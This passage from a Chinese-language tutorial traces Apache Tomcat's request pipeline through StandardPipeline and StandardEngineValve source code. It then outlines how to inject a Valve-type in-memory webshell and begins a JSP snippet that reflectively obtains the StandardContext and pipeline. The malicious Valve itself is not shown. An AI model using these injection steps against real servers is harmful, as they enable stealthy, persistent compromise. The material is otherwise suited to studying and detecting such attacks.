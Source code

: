 ```java
            ...
            connector.getService().getContainer().getPipeline().getFirst().invoke(   request, response);
            }
...
}
```
前面是对`Request`和`Respone`对象进行一些判断及创建操作，我们重点来看一下`connector.getService().getContainer().getPipeline().getFirst().invoke(request, response)`
首先通过`connector.getService()`来获取一个`StandardService`对象
接着通过`StandardService.getContainer().getPipeline()`获取`StandardPipeline`对象。
再通过`StandardPipeline.getFirst()`获取第一个`Valve`
```java
@Override
    public Valve getFirst() {
        if (first != null) {
            return first;
        }
 
        return basic;
    }
```
最后通过调用`StandardEngineValve.invoke()`来实现`Valve`的各种业务逻辑
```java
public final void invoke(Request request, Response response)
        throws IOException, ServletException {
 
        // Select the Host to be used for this Request
        Host host = request.getHost();
        if (host == null) {
            // HTTP 0.9 or HTTP 1.0 request without a host when no default host
            // is defined.
            // Don't overwrite an existing error
            if (!response.isError()) {
                response.sendError(404);
            }
            return;
        }
        if (request.isAsyncSupported()) {
            request.setAsyncSupported(host.getPipeline().isAsyncSupported());
        }
 
        // Ask this Host to process this request
        host.getPipeline().getFirst().invoke(request, response);
    }
```
`host.getPipeline().getFirst().invoke(request, response)`实现调用后续的`Valve`。
### 4.4.3、动态添加Valuv
根据上文的分析我们能够总结出`Valve`型内存马的注入思路

1. 获取`StandardContext`对象
2. 通过`StandardContext`对象获取`StandardPipeline`
3. 编写恶意`Valve`
4. 通过`StandardPipeline.addValve()`动态添加`Valve`
#### 4.4.3.1、获取StandardPipeline对象
```java
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
 
    Pipeline pipeline = standardContext.getPipeline();
```